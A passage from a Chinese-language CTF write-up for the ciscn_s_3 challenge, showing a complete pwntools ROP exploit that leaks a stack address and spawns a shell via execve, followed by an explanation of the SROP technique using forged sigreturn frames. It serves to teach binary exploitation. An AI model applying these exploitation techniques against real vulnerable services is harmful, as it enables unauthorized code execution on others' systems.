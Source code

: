 完整exp如下：

```
from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'debug')
p = remote('node3.buuoj.cn',27869)
elf = ELF('./ciscn_s_3')
main_addr = elf.symbols['main']
pop_rbx_rbp_r12_r13_r14_r15 = 0x040059A
mov_rdx_13_mov_rsi_r14_call = 0x0400580
mov_rax_59_ret = 0x04004E2
syscall = 0x0400517
payload = '/bin/sh\x00' + 'A'*0x8 + p64(main_addr)
p.sendline(payload)
p.recv(0x20)
stack_addr = u64(p.recv(8))
print(hex(stack_addr))
binsh_addr = stack_addr - 0x138
rax_59 = binsh_addr + 0x10
pop_rdi_ret = 0x04005a3
payload = '/bin/sh\x00' + b'a' * 8 + p64(mov_rax_59_ret) + p64(pop_rbx_rbp_r12_r13_r14_r15)
payload += p64(0) + p64(1) + p64(rax_59) + p64(0) + p64(0) + p64(0)
payload += p64(mov_rdx_13_mov_rsi_r14_call)
payload += 'a'*0x38
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(syscall)
p.sendline(payload)
p.interactive()
```

## 解法二：（正解）SROP攻击

SROP是一个于2014年被发表在信安顶会Okaland 2014上的文章提出的一种攻击方式，SROP技术的提出大大简化了ROP攻击的流程。
正如文章所述，SROP(Sigreturn Oriented Programming)技术利用了类Unix系统中的Signal机制，如图
![img](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041738907.jpeg)
上方为用户层，下方为内核层。对于Linux来说

1. 当内核对一个用户层进程发出（deliver）一个signal时，进程被暂时挂起，控制权切到内核层
2. 内核保存进程的上下文(对我们来说重要的就是寄存器状态)到用户的栈上，然后再把rt_sigreturn地址压栈，跳到用户层执行Signal Handler以处理相应的signal
3. 当signal handler执行完之后，栈指针（stack pointer）就指向`rt_sigreturn`，所以，signal handler函数的最后一条`ret`指令会使得执行流跳转到这段sigreturn代码，被动地进行`sigreturn`系统调用，返回时调用的就是syscall(15)也就是sigreturn函数，跳到内核层
4. 在内核`sigreturn`系统调用处理函数中，会根据当前的栈指针(esp/rsp)指向的`Signal Frame`对进程上下文进行恢复，并返回用户态，从挂起点恢复执行。即：内核恢复②中保存的进程上下文，控制权交给用户层进程。

有趣的是，这个过程存在着两个问题

1. rt_sigreturn在用户层调用，地址保存在栈上，执行后出栈
2. 上下文也保存在栈上，比rt_sigreturn先进栈，且内核恢复上下文时不校验
   因此，我们完全可以自己在栈上放好上下文，然后自己调用re_sigreturn，跳过步骤1、2。此时，我们将通过步骤3、4让内核把我们伪造的上下文恢复到用户进程中，也就是说我们可以重置所有寄存器的值，一次到位地做到控制通用寄存器，rip和完成栈劫持。这里的上下文我们称之为Sigreturn Frame。

简而言之：15号系统调用sigreturn。这个系统调用是在终止信号恢复用户态环境时用的。那么我们在栈上伪造寄存器的值，那么恢复时就可将寄存器控制为我们想要的值。
